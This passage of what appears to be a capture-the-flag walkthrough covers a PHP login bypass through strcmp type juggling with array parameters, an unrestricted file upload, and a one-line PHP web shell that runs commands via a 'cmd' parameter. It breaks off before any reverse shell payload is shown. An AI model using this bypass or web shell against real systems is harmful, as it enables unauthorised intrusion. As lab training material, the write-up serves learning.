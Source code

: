   ```
  - If `strcmp` is given an empty array to compare against the stored password, it will return `NULL`. In PHP the `==` operator only checks the value of a variable for equality, and the value of `NULL` is equal to `0`. The correct way to write it would be `===` operator which checks both value and type. (These are prominrntly know as "Juggling bugs").
  - In PHP, variables can be easily converted into arrays if we add `[]` in front of them. For example:
    - ```
      $username = "Admin"
      $username[] = "Admin"
      ```
  - Adding `[]` changes the variable `$username` to an array, which means that `strcmp()` will compare the array instead of a string.
  - In the comparison logic above we see that the comparison succeeds and returns `0` and the login is successfull. If we convert those variables into empty arrays, the comparison will return `NULL and NULL == 0` will return true, causing the login to be successfull.
- In order to exploit this vulnerability, we will intercept the login request in BurpSuite (Configure the browser to use it as a proxy, either with FoxyProxy plugin or the Browser configuration page).
- Once configured, we send a login request with arbitrary username and password and capture the request. Before forwarding the request we change the POST data as follows to bypass the login:
  - `username[]=admin&password[]=pass`: This converts the variables to arrays and after forwarding the request, `strcmp()` returns `true` and the login is successful. Once logged in, we see a file upload functionalty.
- Since the webpage can execute PHP code, we can try uploading a PHP file to check if PHP file uploads are allowed and also check for PHP code execution.
- We can upload a new `test.php` file with the following code:
  - ```
    echo "<?php phpinfo(); ?>" > test.php 
    ```
  - Once we upload the file we see a notification up top stating the upload was successfull.
- Next, we need to determine were the uploaded files are stored on the webserver.
  - ```

    ```
  - From the output above we see that there is a directory called `_uploaded`. When we visit the directory in our browser we find our `test.php` file uploaded in the last step. When we click on the file we see the `phpinfo()` function get executed and we are displayed with the output.
- Now that we know that we can upload `.php` we can upload a PHP web shell whoch uses the `system()` function and a `cmd` URL parameter to execute system commands.
  - We create a `webshell.php` file with the following code:
    - ```
      <?php echo system($_REQUEST['cmd']); ?>
      ```
    - We are making use of the `$_REQUEST` method to fetch the `cmd` parameter because it works for fetching both URL parameters in `GET` requests and HTTP request body parameter in case of `POST`.
    - We can now upload the `webshell.php` file. Once uploaded we are able to view it in `_uploaded` directory.
    - When we click on the file we are presented with a blank page. However, we are able to run commands through our browser in the URL bar by appending `?cmd=id` to the URL.
      - `http://10.129.95.194/_uploaded/webshell.php?cmd=id`: The URL returns the output of the `id` comamnd, letting us know that Apache is running in the context of the user `www-data`. Let's intercept this request in BurpSuite and send it to the repeater tab.
- Now that we know we can execute code on the remote system, let's attempt to get a reverse shell. The current request is an `HTTP GET` request and we can attempt to use it to send a command that will grant us a reverse shell on the system, however, it is likely that one might encounter errors due to the presence of special characters in the URL (even after URL encoding them). Instead, let us convert the `GET` request to a `POST` request and send the reverse shell command as an `HTTP POST` parameter. 
  * (Right-Click on the request body box, and click on the "Change request method" in order to convert this `HTTP GET` request to an `HTTP POST` request)
- In the repeater tab, we can alter the request and set the following reverse shell payload as a value for the `cmd` parameter.
  - ```
  ```